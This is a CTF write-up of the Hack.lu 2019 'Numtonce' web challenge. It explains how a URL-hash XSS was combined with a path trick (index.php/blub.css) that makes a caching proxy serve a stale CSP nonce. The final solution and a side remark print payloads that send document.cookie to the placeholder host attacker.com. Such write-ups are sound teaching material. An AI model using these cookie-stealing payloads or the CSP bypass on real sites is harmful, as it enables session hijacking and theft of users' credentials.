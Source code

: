 ```yaml
---
layout: writeup
title:  "Numtonce"
source: "https://fluxfingersforfuture.fluxfingers.net/challenges/29"
solves: "7/972"
date:   2019-10-27 17:10:05 +0200
event: "Hack.lu 2019"
categories: [writeup]
ctf_categories: [web, XSS, CSP]
author: "Alain K."
image: "website.png"
---
```


## Description
> With all the bad news in the world, everyone needs a calm place to wind down. 
> [We built one](https://numtonce.fluxfingersforfuture.fluxfingers.net/), 
> but you have to help us keep it safe. If you find anything suspicious, 
> [tell the forest ranger](https://numtonce.fluxfingersforfuture.fluxfingers.net/submit/)!
> He might reward you with a cookie :)

![Image of Website](website.png)
## TL;DR
XSS is possible over URL hash. However CSP is set, so no external scripts allowed. Except if nonce tag is correct. Idea is to 
force the nonce tag to be the same after refreshes by loading the website from a cache. js/css/image files are loaded from cache, the index.php file itself not. 
Force index.php file to load from cache by appending a css filename to the url: http://url.com/index.php/blub.css. index.php will still load, 
however the proxy server things it is a css file and loads a cached version of index.php. Hence, we know the nonce in advance and can exceute custom js.

## Complete Writeup
By reading the description, it seems like the goal of the challenge is to steal a cookie from the browser. 
This is usually done by injecting custom javascript into the website (XSS) with a piece of code sending 
the cookie to a server controlled by the attacker. The forest ranger's website is just a text field to subit an URL too. 
A bot will then visit that URL with a cookie set to the flag to capture. Knowing this, the plan of attack:
1. Forge an URL that triggers custom javascript to send the cookie to a server we control
2. Submit the URL to the forest ranger bot
3. Check our server logs for stolen cookie
4. Submit the flag inside the cookie :)

Looking at the website itself, it seems to be very simplistic. It has one single page and the source code is pretty much only this javascript code:
```html
<script nonce="b80a92df721eda620876363536b7e9a6" src="/emojify.min.js"></script>
<script>
    const l=location
      let h=l.hash
      var p=l.hostname
    const s=l.search
      let a=h.split(p)
      var b=a.map((o,O)=>(O^0!==0&&o||'')).map(decodeURIComponent)
    const o0o=b.join(s)
      let script=sessionStorage[a[0]]
      var my=a=>b
    const msg='there is p' in my `t'
˂/script>

<script>
    o0o='nope'
˂/script>

A wise man once said: 'A CSP a day keeps the XSS away.`

<script>
    document.write('<div id="garden">');
    document.write(o0o||'tt t t t fnttttttttt nfst t ttt n t tl t  tnr tmtt dt n  cttttrttntt t tttttnttt   t t nt   tt tt nt  t  t  t'.split('').map(c=>({t:':evergreen_tree:',f:':fallen_leaf:',s:':squirrel:',l:':leaves:',r:':rabbit:',m:':maple_leaf:',d:':droplet:',c:':cherry_blossom:',n:'<br/>',' ':':white_small_square:'}[c])).join(''));
    document.write('</div>');

    emojify.setConfig({ img_dir: '/emojis' });
    emojify.run(garden);
</script>
```
Looking at the code, it is pretty clear that XSS over the URL is possible due to the `document.write(o0o)` line. Backtracing `o0o`, 
one can see that it is generated using the components of the url after the hashtag. Precisely, one can inject code using the following url scheme:
`https://numtonce.fluxfingersforfuture.fluxfingers.net/#numtonce.fluxfingersforfuture.fluxfingers.net<h1>test</h1>`

Next step is to try to embed our javascript code. However, that is where we hit a wall:
![Image of CSP error](csp.png)
A CSP header was set to not allow scripts, except if the nonce tag or the scripts sha256 was correct:

`Content-Security-Policy: default-src 'none'; script-src 'sha256-CRtdY47bt+vWDdsuOTTeizFLvSy49h32pVgpWlyN0TU=' 'nonce-117bc8c1d6ead80e5b6ad3f3eca4921e'; img-src 'self'; style-src 'self'; base-uri 'none'; frame-ancestors 'none'; form-action 'none';`

The nonce is a random token that gets newly generated whenever the site reloads. 
Both options seemed impossible to us (and even the [CSP Evaulator said the header is safe](https://csp-evaluator.withgoogle.com/)), 
so we started to try to understand the rest of the javascript code and even analyze the included `emojify.js`. 
This proved to be completely unnecassary (see *Lessons learned* ). 
The rest of the javascript proved to be distractions only. It even includes a `<script>` tag that is not an actual script tag, 
but a comparison to a javascript variable called script. We spent a lot of time trying to figure out the meaning of all this but it was worthless.

After a while something intersting hit us. The js/css/image files included a strange header in the HTTP response:

`Hit-Or-Miss: i guess they never miss huh?`

This is when we noticed that js/css/iamge files were loaded from a cache. They also had an Age header, which expired after 10 minutes.
Then the idea struck, that if we managed to load the index.php from cache, the token would be the same for 10 minutes! We tried to force loading the index.php by setting some speciel request headers (Cache-Control, etc.). 
However none worked and also the bot to steal the cookie from would not have them set.

As one other header was `Server: nginx`, we looked up how to setup a basic cache on nginx. Basically, a regex filter is applied to the url and if it matches, files get cached.

So we tried to forge an URL that ends with .css but still loads index.php. After some trial and error, we forged the following url: `https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css`.

SUCCESS! The nonce token was always the same and the response had all the caching headers!

Trying out the following we get XSS with an alert ( {nonce} being the CSP nonce token that was in a previous response header):
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="{nonce}">alert(1)</script>`

However trying to send the cookie to our server via ajax or as img src didn't work due to the CSP again. So we used the same trick again and wrote a script tag with the correct nonce:
`document.write('<script nonce="{nonce}" src="https://attacker.com/cookie='+document.cookie+'"></script>');`

In hindsight, a document.location=https://attacker.com/cookie='+document.cookie+' would have worked too.

## Final Solution
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="{nonce}">document.write('<script nonce="{nonce}" src="https://attacker.com/cookie='+document.cookie+'"></script>');</script>`

{nonce} being the CSP nonce token that was in a previous response header with the same URL

## Lessons learned
Check and understand the CSP! We would have saved a looot of time if we understood the CSP correctly straight away. As `default-src` was set to `none`. 
We should have noticed that it is impossible to include any external resource. Meaning that even if we would have found some unsafe javascript code inside the website itself, 
it would still have been impossible to send the cookie to an external server! The only exceptions to be able to contact an external server would be if the nonce of a script tag is correct or the sha256 
of the external script would be correct. As it is impossible to find sha256 collisions, finding a correct nonce is the only possible solution. So no matter what we tried to do,
we sould have noticed from the beginning that we needed to force a valid nonce!

